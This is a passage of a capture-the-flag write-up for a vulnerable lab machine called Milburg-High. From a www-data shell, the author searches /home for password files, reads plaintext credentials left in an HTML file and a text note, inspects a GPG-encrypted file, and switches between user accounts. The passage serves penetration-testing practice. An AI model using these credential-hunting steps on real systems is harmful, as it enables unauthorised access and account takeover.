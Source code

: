 ## Elliot - Via Creds Found
1. Look for `.txt` & `pass` files in `/home`
	```
	www-data@Milburg-High:/home$ find $(pwd) 2>/dev/null | grep -P ".txt|pass"
	/home/bob/.old_passwordfile.html
	/home/bob/Documents/staff.txt
	/home/bob/Documents/login.txt.gpg
	....
	/home/elliot/theadminisdumb.txt
	```
2. View enumerated files
	-  `.old_passwordfile.html`
		```
		www-data@Milburg-High:/$ more /home/bob/.old_passwordfile.html
		<html>
		<p>
		jc:Qwerty
		seb:T1tanium_Pa$$word_Hack3rs_Fear_M3
		</p>
		</html>
		```
		- seb:`T1tanium_Pa$$word_Hack3rs_Fear_M3`
		- jc:Qwerty
	-  `/home/bob/Documents/staff.txt`
		```
		www-data@Milburg-High:/home$ cat /home/bob/Documents/staff.txt
		Seb:

		Seems to like Elliot
		Wants to do well at his job
		Gave me a backdoored FTP to instal that apparently Elliot gave him

		James:

		Does nothing
		Pretty Lazy
		Doesn't give a shit about his job

		Elliot:

		Keeps to himself
		Always needs to challenge everything I do
		Keep an eye on him
		Try and get him fired
		```
	-  `/home/bob/Documents/login.txt.gpg`
		```
		www-data:/$ more /home/bob/Documents/login.txt.gpg
		o��J[V0w�q�OS�bob@Milburg-High:/$ file /home/bob/Documents/login.txt.gpg
		/home/bob/Documents/login.txt.gpg: GPG symmetrically encrypted data (AES cipher)
		bob@Milburg-High:/$ 
		```
		- **symmetrically encrypted**, no need for private key, only passphrase needed.
	-  `/home/elliot/theadminisdumb.txt`
		```
		www-data@Milburg-High:/home$ cat /home/elliot/theadminisdumb.txt
		The admin is dumb,.........SNIP
		theadminisdumb
		```
		- elliot:theadminisdumb
3. Switch to seb, jc, elliot, could not enumerate/find ways to root
4. Proceed to `/home/bob/Documents`
	```
	jc@Milburg-High:~/Documents$ ls -la
	total 20